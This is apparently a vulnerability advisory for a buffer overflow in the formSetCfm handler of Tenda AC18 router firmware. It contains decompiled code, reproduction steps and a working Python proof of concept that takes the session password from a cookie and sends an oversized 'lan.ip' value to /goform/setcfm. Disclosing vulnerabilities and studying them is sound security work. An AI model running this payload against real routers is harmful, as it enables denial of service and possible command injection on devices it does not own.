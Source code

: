 # Buffer Overflow in formSetCfm

## 1. Affected model(s) and firmware/software version(s)

Product: AC18
Version: V15.03.05.19(6318)
Downloaded from: https://www.tenda.com.cn/download/detail-2683.html
Binary: `/bin/httpd`

## 2. Vulnerability description and potential impacts

In binary, there is a function called `formSetCfm` which allows any user to set value in any length of any keys in the following code:

```c
    do {
        sprintf((char *)&uStack_138,"name%d",local_14);
        local_1c = (char *)FUN_0002ba8c(param_1,&uStack_138,&DAT_000df880);
        if (*local_1c == '\0') break;
        sprintf((char *)&uStack_238,"value%d",local_14);
        local_18 = FUN_0002ba8c(param_1,&uStack_238,&DAT_000df880);
        printf("name:%s\tvalue:%s\n",local_1c,local_18);
        SetValue(local_1c,local_18);
        local_14 = local_14 + 1;
    } while (local_14 < 0x15);
```

We can set a specific key (ex: `lan.ip`) with a large bytes of value and when the program calls `GetValue` with that specific key `lan.ip`, it will read to a buffer and hence, cause overflow. In addition, it can also cause command injection.

## 3. Step-by-step instructions to reproduce the issue

- Step 1: Run router
- Step 2: Request the index.html to get the password from cookie
- Step 3: Craft a malicious payload
- Step 4: Send payload from step 3 (in body of packet) and password from step 2 (in header cookie) to url `http://<ip>/goform/setcfm` with POST requests

## 4. Proof-of-concept (PoC) or exploit code for the issue

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.0.1/'

# Get password
url = url_base + 'index.html'
res = s.get(url)
password = 'password=' + s.cookies.get_dict()['password'] + '; bLanguage=cn'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'name0': 'lan.ip', 
        'value0': b'a'*0x500, 
        'funcname':'changelanip'
}
headers = {
    'Cookie': password,
}

res = re.post(url, data=data, headers=headers)
```

![](images/CVE1.gif)

## 5. Any suggested solutions to fix this

Limit number of bytes read to buffer in function `GetValue`

## 6. Severity (e.g. CVSS v3.x)

DOS, Command injection

## 7. Acknowledgement

Nguyen Huu Tri, Cao Ngoc Quy and Nguyen Le Quoc Anh of bl4ckh0l3 from Galaxy One

